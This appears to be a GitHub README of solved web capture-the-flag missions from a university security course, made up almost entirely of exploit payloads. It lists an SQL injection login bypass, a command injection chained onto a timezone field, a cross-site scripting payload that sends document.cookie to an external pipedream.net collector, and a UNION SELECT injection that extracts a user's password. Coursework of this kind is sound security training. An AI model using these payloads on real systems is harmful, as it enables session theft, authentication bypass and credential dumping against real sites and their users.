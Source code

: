 # WEB
### Flags captured in Computer Security Course held by Prof. Barenghi @ PoliMi
#### (Time-Based Blind SQL Injection Attack And QrCode SqlInjection are available in ipynb format)

<br>

## First Exploit - Mission 1: 
```sql
dasda' oR '1'='1;--
```

## Second exploit - Mission 2:
```bash
"Europe/Rome" && flag && echo < 'emily'
```

## Third exploit - Mission 3: Central Lyrics
```url
<script>fetch("https://en5tc1p4vx7hf.x.pipedream.net/"%2Bdocument.cookie)</script>
```
## Sixth exploit - Mission 6: Do ut des
```url

https://web6.chall.necst.it/menu.php?choice=' UNION SELECT NULL,password,3 FROM users WHERE username ='Ramon' --
```
